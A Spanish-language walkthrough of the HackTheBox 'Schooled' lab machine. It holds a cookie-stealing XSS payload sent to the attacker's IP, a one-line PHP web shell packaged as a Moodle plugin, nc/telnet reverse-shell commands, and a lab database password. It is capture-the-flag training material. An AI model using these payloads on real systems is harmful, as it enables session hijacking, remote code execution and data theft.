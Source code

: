 ```yaml
---
layout      : post
title       : "HackTheBox - Schooled"
author      : lanz
image       : https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335banner.png
category    : htb
tags        : [ moodle, CSRF, cookie-hijacking, pkg, SUID, sudo, FreeBSD ]
---
```

Máquina **FreeBSD** nivel medio, linda locura, nos moveremos mucho por **Moodle** robando cookies, cambiando roles a los cuales no deberíamos cambiar e instalando plugins maliciosos. Crackearemos hashes y finalmente aprovecharemos los permisos que tenemos en el sistema con **pkg install** para instalar paquetes algo peligrosos.

![335schooledHTB](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335schooledHTB.png)

### TL;DR (Spanish writeup)

**Creada por**: [TheCyberGeek](https://www.hackthebox.eu/profile/114053).

Jugaremos con **fuzzing de subdominios** para encontrar un servicio `moodle` el cual esta infestado de problemas :P 

Nos aprovecharemos de un profesor que esta validando si tenemos una característica en nuestro perfil de estudiante para robarle su **cookie de sesión** y convertirnos en él. Estando dentro del **Moodle** como profesores, tendremos algunos `CVEs` que justamente explotan acciones como ellos.

Tendremos uno en el que podremos aprovechar una mala configuración, modificaremos el rol de nuestro usuario para permitirle a otro usuario convertirse en **manager** de un curso, con esto lograremos que el usuario con rol de **manager** por default (**Lianne**) instale <u>plugins</u> mediante un archivo `.zip` malicioso. Finalmente lograremos **RCE** como el usuario `www`.

Adentro encontraremos archivos de configuración, entre ellos la conf de la base de datos, nos apoyaremos de `myslqshow` y `mysqldump` para ver el contenido de una tabla con usuarios, uno de ellos conocido en el sistema. Tendremos contraseñas cifradas, apoyándonos de `John The Ripper` lograremos crackerlas y hacer uso de una de ellas para obtener una Shell como el usuario `jamie` en el sistema.

Enumerando los permisos que tenemos con **jamie**, veremos que puede actualizar e instalar paquetes en el sistema usando `pkg install`. Aprovecharemos esto para que mientras se esta instalando un paquete, nosotros podamos inyectar comandos en ese mismo paquete. Así estaríamos ejecutando las instrucciones como el usuario `root`. Obtendremos una Shell como él modificando el binario `/bin/bash` dándole permisos `SUID`.

...

### Clasificación de la máquina según la gentesita

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335statistics.png" style="display: block; margin-left: auto; margin-right: auto; width: 80%;"/>

Bastante bastante real, vulns conocidas y bastante investigación.

> Escribo para tener mis "notas", por si algun día se me olvida todo, leer esto y reencontrarme (o talvez no) :) además de enfocarme en plasmar mis errores y exitos (por si ves mucho texto), todo desde una perspectiva más de enseñanza que de solo mostrar lo que hice.

...

Camino de verdades y verdaderas mentiras.

1. [Reconocimiento](#reconocimiento).
  * [Enumeración de puertos con **nmap**](#enum-nmap).
2. [Enumeración](#enumeracion).
  * [Recorremos el puerto 80 pa ver que hay por ahí](#puerto-80).
  * [Encontramos el servicio **Moodle** corriendo en el servidor web](#web-moodle).
3. [Explotación](#explotacion).
  * [Jugamos con un mensaje de un profesor y robamos cositas (con respeto)](#teacher-cookie-hijacking).
  * [Divagando y explotando la versión del **Moodle**](#CVE-2020-14321).
4. [Movimiento Lateral **MySQL**: **www** -> **jamie**](#movimiento-lateral-jamie).
5. [Escalada de privilegios](#escalada-de-privilegios).

...

# Reconocimiento [#](#reconocimiento) {#reconocimiento}

...

## Vemos que puertos están abiertos con <u>nmap</u> [📌](#enum-nmap) {#enum-nmap}

Empezamos haciendo un escaneo de puertos, así sabemos que servicios esta corriendo la máquina:

```bash
❭ nmap -p- --open -v 10.10.10.234 -oG initScan
```

| Parámetro | Descripción |
| --------- | :---------- |
| -p-       | Escanea todos los 65535                                                                                  |
| --open    | Solo los puertos que están abiertos                                                                      |
| -v        | Permite ver en consola lo que va encontrando                                                             |
| -oG       | Guarda el output en un archivo con formato grepeable para usar una [función **extractPorts**](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/magic/extractPorts.png) de [S4vitar](https://s4vitar.github.io/) que me extrae los puertos en la clipboard |

```bash
❭ cat initScan 
# Nmap 7.80 scan initiated Sun Apr 11 25:25:25 2021 as: nmap -p- --open -v -oG initScan 10.10.10.234
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.10.234 ()   Status: Up
Host: 10.10.10.234 ()   Ports: 22/open/tcp//ssh///, 80/open/tcp//http///, 33060/open/tcp//mysqlx///
# Nmap done at Sun Apr 11 25:25:25 2021 -- 1 IP address (1 host up) scanned in 216.96 seconds
```

Perfecto, nos encontramos los servicios:

| Puerto | Descripción |
| ------ | :---------- |
| 22     | **[SSH](https://es.wikipedia.org/wiki/Secure_Shell)**: Contamos con la posibilidad de obtener una Shell de manera segura. |
| 80     | **[HTTP](https://www.techtarget.com/searchnetworking/definition/port-80)**: Tenemos una página web. |
| 33060  | **[MySQLx](https://serverfault.com/questions/1031235/what-is-the-port-33060-for-mysql-server-ports-in-addition-to-the-port-3306#answer-1031240)**. |

Ahora hagamos un escaneo de scripts y versiones para tener info más especifica de cada puerto:

```bash
❭ nmap -p 22,80,33060 -sC -sV 10.10.10.234 -oN portScan
```

| Parámetro | Descripción |
| ----------|:----------- |
| -p        | Escaneo de los puertos obtenidos                       |
| -sC       | Muestra todos los scripts relacionados con el servicio |
| -sV       | Nos permite ver la versión del servicio                |
| -oN       | Guarda el output en un archivo                         |

```bash
❭ cat portScan 
# Nmap 7.80 scan initiated Sun Apr 11 25:25:25 2021 as: nmap -p 22,80,33060 -sC -sV -oN portScan 10.10.10.234
Nmap scan report for 10.10.10.234
Host is up (0.19s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9 (FreeBSD 20200214; protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.46 ((FreeBSD) PHP/7.4.15)
33060/tcp open  mysqlx?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port33060-TCP:V=7.80%I=7%D=4/11%Time=60731B26%P=x86_64-pc-linux-gnu%r(N
SF:ULL,9,"...");
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd
 
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Apr 11 25:25:25 2021 -- 1 IP address (1 host up) scanned in 78.15 seconds
```

Obtenemos (varias cositas que veremos después) por ahora:

| Puerto | Servicio | Versión |
| :----- | :------- | :-------|
| 22     | SSH      | OpenSSH 7.9 (FreeBSD 2020/02/14) |
| 80     | HTTP     | Apache httpd 2.4.46 (FreeBSD)    |
| 33060  | MySQLx   | - |

Ahora exploremos cada servicio a ver por donde podemos vulnerar el sistema.

...

# Enumeración [#](#enumeracion) {#enumeracion}

...

## Dando vueltas con el puerto 80 [📌](#puerto-80) {#puerto-80}

![335page80](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335page80.png)

Nos encontramos una página web de una institución para estudiar online, dándole una vuelta nos encontramos un email y también alusión al dominio `schooled.htb`:

![335page80_footer](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335page80_footer.png)

Listo, guardemos el email por si algo y agreguemos ese dominio al archivo `/etc/hosts` para que cuando hagamos peticiones hacia el dominio **schooled.htb** nos resuelva hacia la IP **10.10.10.234**, que quizás tenga info diferente...

* [Info archivo **/etc/hosts**](https://tldp.org/LDP/solrhe/Securing-Optimizing-Linux-RH-Edition-v1.3/chap9sec95.html).

---

```bash
❭ cat /etc/hosts
...
10.10.10.234  schooled.htb
...
```

Y validando de nuevo en la web, pero en vez de escribir la IP ahora escribimos el dominio y obtenemos aparentemente el mismo resultado que antes.

Enumerando nos encontramos el apartado `/teachers.html` el cual tiene algunos nombres y roles que podemos guardar por si llegamos a encontrar algún portal o algo que podamos relacionar:

![335page80_teachers](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335page80_teachers.png)

```bash
Jane Higgins -> Scientific.
Lianne Carter -> Manager & Profesora.
Manuel Phillips -> Profesor.
Jamie Borham -> Profesora.
```

Siguiendo, en el apartado `/contact.html` encontramos unos campos a llenar y al enviarlos nos redirecciona a un archivo llamado `contact.php`, pero obtenemos un error con estado **404 Not Found**...

---

## Encontramos el servicio <u>Moodle</u> [📌](#web-moodle) {#web-moodle}

Acá no encontramos nada más en la web, jugando con el código fuente o con las carpetas que hay no vemos nada, así que procedamos a fuzzear un poco...

Haciendo un fuzzing de archivos y directorio no encontramos nada, pero si fuzzeamos a ver si existe otro dominio relacionado con `schooled.htb` el cual responda a la IP **10.10.10.234** tenemos:

```bash
❭ wfuzz -c --hc=404 -w /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://10.10.10.234 -H 'Host: FUZZ.schooled.htb'
...
=====================================================================
ID           Response   Lines    Word       Chars       Payload      
=====================================================================

000000022:   200        461 L    1555 W     20750 Ch    "pop3"
000000001:   200        461 L    1555 W     20750 Ch    "www"
000000003:   200        461 L    1555 W     20750 Ch    "ftp"
000000007:   200        461 L    1555 W     20750 Ch    "webdisk"
000000015:   200        461 L    1555 W     20750 Ch    "ns"
000000023:   200        461 L    1555 W     20750 Ch    "forum"
...
```

Tenemos muchos, pero probablemente sean falsos positivos, así que filtremos para que nos quite todos los que tengan como numero total de letras **1555**:

```bash
❭ wfuzz -c --hc=404 --hw=1555 -w /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://10.10.10.234 -H 'Host: FUZZ.schooled.htb'
...
=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000162:   200        1 L      5 W        84 Ch       "moodle"
```

Perfecto, aparentemente tenemos un nuevo dominio a probar, pues agreguémoslo junto a **schooled.htb** al archivo `/etc/hosts`:

```bash
❭ cat /etc/hosts
...
10.10.10.234  schooled.htb moodle.schooled.htb
...
```

Y validando en la web nos encontramos con:

![335page80_moodle](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335page80_moodle.png)

Nice, tenemos un servicio `moodle`, que según [Wikipedia](https://es.wikipedia.org/wiki/Moodle) es:

🎓 ***Herramienta de gestión de aprendizaje (LMS), o más concretamente de <u>Learning Content Management</u> (LCMS), de distribución libre, escrita en PHP.***

* [Web Oficial de Moodle](https://moodle.org/?lang=es).

Si intentamos ver cualquier recurso nos pide un ingreso por medio de credenciales... (Probar contraseñas por default y con los profesores encontrados no nos dio resultado). 

Pero también podemos ingresar como invitado o crearnos una cuenta, probando inicialmente el acceso como invitado contra cualquier curso nos pide que debemos tener una cuenta:

![335page80_moodle_mathEnrol](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335page80_moodle_mathEnrol.png)

Dando vueltas por el sitio como invitado vemos varias URL's posiblemente llamativas:

* `http://moodle.schooled.htb/moodle/enrol/index.php?id=5`

  El **ID** va del **5** al **2**, el número **1** nos redirecciona a la página principal donde están todos los cursos.

* `http://moodle.schooled.htb/moodle/calendar/view.php?view=month`

  Tiene la opción de variar entre **día**, **mes** y **año**, pero solo **mes** (month) funciona.


* `http://moodle.schooled.htb/moodle/calendar/view.php?view=month&time=1614556800`

  Podemos ver el calendario de varios meses, ya que **time** depende del mes que escojamos.

Entonces, con esto en mente podríamos probar **inyección SQL** (no va por acá) de varias maneras, validando rápidamente que no existan más IDs (cursos) tenemos:

```bash
❭ for id in $(seq 0 20); do echo -n "ID: $id -> Status Code: "; curl -s -I --cookie "MoodleSession=2a9js25d3usf0dv3u5r27c21nn" http://moodle.schooled.htb/moodle/enrol/index.php?id=$id | grep "HTTP/1.1" | awk '{print $2}'; done

ID: 0 -> Status Code: 404
ID: 1 -> Status Code: 303
ID: 2 -> Status Code: 200
ID: 3 -> Status Code: 200
ID: 4 -> Status Code: 200
ID: 5 -> Status Code: 200
ID: 6 -> Status Code: 404
ID: 7 -> Status Code: 404
ID: 8 -> Status Code: 404
ID: 9 -> Status Code: 404
ID: 10 -> Status Code: 404
ID: 11 -> Status Code: 404
ID: 12 -> Status Code: 404
ID: 13 -> Status Code: 404
ID: 14 -> Status Code: 404
ID: 15 -> Status Code: 404
ID: 16 -> Status Code: 404
ID: 17 -> Status Code: 404
ID: 18 -> Status Code: 404
ID: 19 -> Status Code: 404
ID: 20 -> Status Code: 404
```

Ahora probando a registrarnos encontramos un nuevo dominio:

![335page80_moodleSignup](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335page80_moodleSignup.png)

* `student.schooled.htb`.

Pero agregándolo al archivo `/etc/hosts` y validando su contenido nos damos cuenta de que responde con el mismo de `schooled.htb`. Así que cambiamos nuestro email con ese dominio y nos permite registrarnos:

![335page80_moodleDash](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335page80_moodleDash.png)

Vemos algo interesante a la izquierda, **Private files**, echándole un ojo nos permite subir archivos, podemos hacerlo mediante un URL:

![335page80_moodlePrivFiles](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335page80_moodlePrivFiles.png)

Probando a que el servicio lea un archivo que esté alojado en nuestra máquina (servidor) obtenemos respuesta, pero después de varios intentos no logramos nada relevante. Dando vueltas encontramos que podemos modificar nuestra imagen de perfil. Intentamos lo mismo que antes e incluso subir una imagen con metadatos `PHP` o cambiándole los magic bytes a un script para que el sistema crea que es un `JPEG`, pero nada, no obtenemos respuesta. 

* [**INFO metadata y cambiar magic bytes**. (En la mitad del post esta)](https://lanzt.github.io/blog/htb/HackTheBox-Magic).

Entrando en **Site home** nos damos cuenta de algo interesante, el curso **Mathematics** es el único al cual podemos "anotarnos" como estudiantes:

![335page80_moodleMathEnrol](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335page80_moodleMathEnrol.png)

Después de anotarnos (enrolarnos) nos redirige a:

```bash
http://moodle.schooled.htb/moodle/course/view.php?id=5
```

![335page80_moodleMathView](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335page80_moodleMathView.png)

Si nos movemos a **Annoucements** tenemos 2 mensajes:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335page80_moodleMathAnnoun.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Fijándonos en el primero tenemos información interesante:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335page80_moodleMathAnn_reminder.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

...

# Explotación [#](#explotacion) {#explotacion}

...

## Jugamos con la interacción del profesor para robarle su cookie [📌](#teacher-cookie-hijacking) {#teacher-cookie-hijacking}

👨‍🏫 ***Students who do not set their <u>MoodleNet profiles</u> will be removed from the course before the course is due to start and <u>I will be checking all students who are enrolled on this course</u>***.

Nos indica que el usuario **Manuel Phillips** (profesor) estará revisando que todos los estudiantes que se unan a su curso tengan habilitado o modificado en su perfil (estudiante) algo llamado **MoodleNet** (que es una red social para educadores según la [web oficial](https://moodle.com/es/moodlenet/)) :O

Opa, esto esta interesante, ya que dependiendo el campo el cual debamos modificar podríamos pensar en robarle la `cookie` al profesor, ya que estaría verificando nuestro perfil (**siempre y cuando estemos enrolados en su curso**), por lo tanto esta entrando en el campo (de nuestro perfil) y validaría su contenido. 

Veamos, vamos a nuestro perfil arriba a la derecha, damos clic en **edit profile** y vemos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335page80_moodleProfile_mooNet.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Es un campo de texto, pues vayamos a la fija e intentemos que lea algo de nuestro servidor a ver si realmente el profesor esta validando el input:

Levantamos servidor web:

```bash
❭ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Y en el campo **MoodleNet** escribimos:

```js
<script src="http://10.10.14.11:8000/serompe.oque"></script>
```

Guardamos los cambios... Y si revisamos nuestro servidor:

```bash
❭ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.234 - - [12/Apr/2021 25:25:25] code 404, message File not found
10.10.10.234 - - [12/Apr/2021 25:25:25] "GET /serompe.oque HTTP/1.1" 404 -
```

Entonces, esta perfecto, sabemos que el profesor esta validando ese campo, ahora podemos proceder a robarle su cookie, para esto simplemente indicamos en el campo `MoodleNet`:

```js
<script>document.write('<img src="http://10.10.14.11:8000/serompe.oque?cookie=' + document.cookie + '">')</script>
```

Esto va a intentar subir una imagen (como antes), solo que como la imagen "esta" en nuestro servidor, intentara cargarla, peeeero además le concatenamos una variable llamada `cookie` que guardara la sesión del usuario que ingrese al campo (con `document.cookie`), o sea, obtendríamos la cookie del profesor que esta validando el campo.

Guardamos yyyyyyyyyy en nuestro servidor obtenemos:

```bash
❭ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.234 - - [12/Apr/2021 25:25:25] code 404, message File not found
10.10.10.234 - - [12/Apr/2021 25:25:25] "GET /serompe.oque?cookie=MoodleSession=boejsdgppi3r50rahsn0tcnqji HTTP/1.1" 404 -
```

PERFECTOOOOOOOOOOOO, tenemos la petición con una cookie, pues probemos a cambiar la nuestra por esa:

![335page80_moodle_changeCookie](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335page80_moodle_changeCookie.png)

VAMONOOOOOOOOOOOOOOOOOOS, somos el usuario `Manuel Phillips`. 

En su perfil vemos un correo y un dominio, podemos guardarlos por si algo. Además sabemos la estructura de como están (suponemos) guardados los usuarios (o profesores) del servidor: `apellido_nombre@dominio`.

---

## Divagando y explotando la versión de <u>Moodle</u> [📌](#CVE-2020-14321) {#CVE-2020-14321}

Viendo que podemos hacer ahora como profesor, leyendo cositas y probando otras, finalmente en la web encontramos un PoC haciendo alusión al CVE [CVE-2020-14321](https://moodle.org/mod/forum/discuss.php?d=407393) que se ve interesante:

* [Youtube - Moodle RCE **CVE-2020-14321** POC](https://www.youtube.com/watch?v=BkEInFI4oIU).

---

![335google_cve_moodle](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335google_cve_moodle.png)

La vulnerabilidad se basa en que un **profesor** puede asignarse a sí mismo o a otros el rol de **manager** dentro de un curso, <u>lo que le daría poder de manipular el curso como **administrador**</u> 😮

Entonces, si indagamos un poco encontramos el [PoC oficial](https://github.com/HoangKien1020/CVE-2020-14321) de la persona que encontró la vulnerabilidad:

* **Kien Hoang** - [https://github.com/HoangKien1020/CVE-2020-14321](https://github.com/HoangKien1020/CVE-2020-14321).

Ya tenemos todo lo que necesitamos, así que sigamos los mismos pasos que el video:

<span style="color: yellow;"><u>1.</u> </span>Nos logeamos como profesor, pero como tenemos la cookie de uno, tamos bien.

![335page80_moodle_changeCookie](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335page80_moodle_changeCookie.png)

<span style="color: yellow;">2. </span>Vamos al curso del cual somos profesor, en nuestro caso **mathematics (Maths)**, damos clic en **Participants** y después en **Enrol users**.

![335page80_moodle_cve_stepsToEnrol](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335page80_moodle_cve_stepsToEnrol.png)

![335page80_moodle_cve_enrolUsers](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335page80_moodle_cve_enrolUsers.png)

Estando en esa ventana seleccionamos al usuario `Lianne Carter` para enrolarla al curso (ya jugaremos con burp), pero, ¿por qué ella? Bueno si recordamos cuando encontramos los profesores en la web, estaba **Lianne Carter** como <u>manager del sitio</u>, así que nos aprovecharemos para cambiar unos valores y enrolarla, pero como administradora del curso (si no, se enrolaría como estudiante :P).

Interceptamos mediante **BurpSuite** la petición y damos clic en **Enrol users**, obtenemos:

![335burp_moodle_cve_enrolUser_lianne](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335burp_moodle_cve_enrolUser_lianne.png)

Dos campos importantes:

* `userlist[]=` (ID del usuario).
* `roletoassign=` (Rol a asignar, **1 es manager** según [esta documentación](https://docs.moodle.org/all/es/Gestionar_roles)).

---

![335google_moodle_roles](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335google_moodle_roles.png)

Así que en vez de `5` colocamos `1` y enviamos la petición. 

Pero validando en la web no vemos que **Lianne** sea **manager** aún:

```html
Lianne Carter - carter_lianne@staff.schooled.htb - Student
```

Si modificamos al usuario **Manuel (ID 24)** (con el que estamos) para que también tenga el rol de **manager** obtenemos en la web:

```html
Lianne Carter - carter_lianne@staff.schooled.htb - Manager, Student
...
Manuel Phillips - phillips_manuel@staff.schooled.htb - Manager, Teacher
```

Listos, ahora si podemos seguir con el **PoC**...

<span style="color: yellow;">3. </span>Obtenemos una sesión en *Moodle* como **Lianne** (manager) en el curso.

Damos clic en el nombre de **Lianne** y estando en su perfil vamos a `Log in as`:

![335page80_moodle_cve_lianne_logIN](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335page80_moodle_cve_lianne_logIN.png)

Y ahora somos **Lianne** y tenemos acceso a un nuevo apartado, `Site administration`:

![335page80_moodle_cve_lianne_siteAdmin](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335page80_moodle_cve_lianne_siteAdmin.png)

<span style="color: yellow;">4. </span>Vamos a instalar un **plugin** malicioso.

Entramos al sitio administrativo y seleccionamos `Plugins`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335page80_moodle_cve_lianne_plugins.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Ahora damos clic en `Install plugins`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335page80_moodle_cve_lianne_installPlugin.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Nos pide un archivo `zip` para instalar el plugin. Volviendo al repo vemos que nos provee con un comprimido llamado `rce.zip`:

* [https://github.com/HoangKien1020/Moodle_RCE/blob/master/rce.zip](https://github.com/HoangKien1020/Moodle_RCE/blob/master/rce.zip).

Lo descargamos y validando su contenido tenemos:

```bash
❭ tree rce
rce
├── lang
│   └── en
│       └── block_rce.php
└── version.php
```

🔦 `block_rce.php` es el archivo que nos permite ejecutar comandos en el sistema, todo mediante la variable `cmd` que recibe en la petición `GET`:

```php
❭ cat rce/lang/en/block_rce.php 
<?php system($_GET['cmd']); ?>
```

🔦 `version.php` permite la generación del plugin y llama a nuestro archivo malicioso:

```php
❭ cat rce/version.php 
<?php 
$plugin->version = 2020061700;
$plugin->component = 'block_rce';
```

Listos, para subir el archivo `zip`, seleccionamos el objeto y damos clic en **<u>Install plugin from the ZIP file</u>**, recibimos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335page80_moodle_cve_lianne_installPluginFromZIP.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Damos clic en **<u>Continue</u>** y según las indicaciones del **PoC** simplemente debemos dirigirnos a la siguiente ruta: 

```bash
<domain>/blocks/rce/lang/en/block_rce.php
``` 

Y concatenarle el comando que queramos ejecutar con la variable `cmd`, modificándola quedaría así para ejecutar el comando `id`:

```html
http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php?cmd=id
```

![335page80_moodle_cve_lianne_pluginInstalled_RCE](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335page80_moodle_cve_lianne_pluginInstalled_RCE.png)

PERFECTOOOOOOOOOOOOOOOOOOOOOOo tenemos ejecución remota de comandossadflakjwlekfjlkasd (: Intentemos conseguir una reverse Shell...

Nos ponemos en escucha con **netcat**: `nc -lvp 4433`.

* [Reverse Shells Others and **FreeBSD**](https://sentrywhale.com/documentation/reverse-shell).

Probando estas dos sentencias lo logramos:

```html
http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php?cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i |telnet 10.10.14.11 4433 > /tmp/f
http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php?cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i |nc 10.10.14.11 4433 > /tmp/f
```

Y Listones, ya estariamos dentro. Intentando hacer tratamiento de la `TTY` o al menos tener una Shell más bonita, tenemos problemas y no lo logramos :( Así que enumeremos a ver como podemos movernos a algo lindo.

...

Como vimos, el proceso es muuuuy largo y tedioso de hacer manual, por lo tanto me cree dos scripts, uno enfocado 100% en la máquina, con él nos agrega la línea en el perfil de **Moodle** y también toooooooooooodo el tema del **RCE**.

* [moodle_schooled_RCE.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/schooled/moodle_schooled_RCE.py)

El otro explota directamente el **CVE**, por lo que funciona contra cualquier `Moodle 3.9` con el que tengas credenciales de un profesor (o una cookie :P)

* [exploit.db - **Moodle 3.9** Remote Code Execution (RCE) (Authenticated)](https://www.exploit-db.com/exploits/50180).

...

# <u>MySQL</u>: www -> jamie [#](#movimiento-lateral-jamie) {#movimiento-lateral-jamie}

Enumerando los usuarios del sistema tenemos:

```bash
ls -la /home
lrwxr-xr-x  1 root  wheel  8 Feb 26 22:45 /home -> usr/home
ls -la /usr/home
total 26
drwxr-xr-x   4 root   wheel   4 Mar 16 06:33 .
drwxr-xr-x  16 root   wheel  16 Feb 26 22:46 ..
drwx------   2 jamie  jamie  11 Feb 28 18:13 jamie
drwx------   5 steve  steve  14 Mar 17 14:05 steve
```

* **jamie** y **steve**.

Leyendo archivos de la ruta donde salimos encontramos la configuración de la base de datos:

```bash
pwd
/usr/local/www/apache24/data/moodle
cat config.php
```

```php
<?php  // Moodle configuration file

unset($CFG);
global $CFG;
$CFG = new stdClass();

$CFG->dbtype    = 'mysqli';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'moodle';
$CFG->dbpass    = 'PlaybookMaster2020';
$CFG->prefix    = 'mdl_';
$CFG->dboptions = array (
  'dbpersist' => 0,
  'dbport' => 3306,
  'dbsocket' => '',
  'dbcollation' => 'utf8_unicode_ci',
);

$CFG->wwwroot   = 'http://moodle.schooled.htb/moodle';
$CFG->dataroot  = '/usr/local/www/apache24/moodledata';
$CFG->admin     = 'admin';

$CFG->directorypermissions = 0777;

require_once(__DIR__ . '/lib/setup.php');

// There is no php closing tag in this file,
// it is intentional because it prevents trailing whitespace problems!
```

* **moodle** -> **PlaybookMaster2020**

Buscando la manera de jugar con `MySQL` con esta terminal encontramos las lindas herramientas:

```bash
find / -name mysqlshow
/usr/local/bin/mysqlshow
```

Usémosla para intentar ver el contenido de la base de datos:

```bash
/usr/local/bin/mysqlshow -u moodle -pPlaybookMaster2020
+--------------------+
|     Databases      |
+--------------------+
| information_schema |
| moodle             |
+--------------------+
```

Tenemos la base de datos `moodle` (aunque ya lo sabíamos del archivo `config.php`), veamos sus tablas:

```bash
/usr/local/bin/mysqlshow -u moodle -pPlaybookMaster2020 moodle
Database: moodle
+----------------------------------+
|              Tables              |
+----------------------------------+
| mdl_analytics_indicator_calc     |
| mdl_analytics_models             |
...
| mdl_user                         |
...
```

Ahora que tenemos una tabla llamativa podemos usar `mysqldump` para "dumpear" (realmente hace como si quisiéramos realizar un backup, por eso dumpea) la info de lo que le pidamos, en este caso de la tabla `mdl_user`:

```bash
/usr/local/bin/mysqldump -u moodle -pPlaybookMaster2020 moodle mdl_user
```

![335bash_wwwRS_mysqldump_MDLuserTable](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335bash_wwwRS_mysqldump_MDLuserTable.png)

Vemos muuuucha información, pero toda es relacionada con usuarios, si ajustamos la visión vemos un usuario llamado `jamie` y que esta relacionado con el **staff**, por lo que puede ser el mismo **jamie** del sistema, podemos tomar su **hash** e intentar crackearlo.

```bash
❭ cat jamie_hash
$2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW
```

Usaremos `John The Ripper`:

```bash
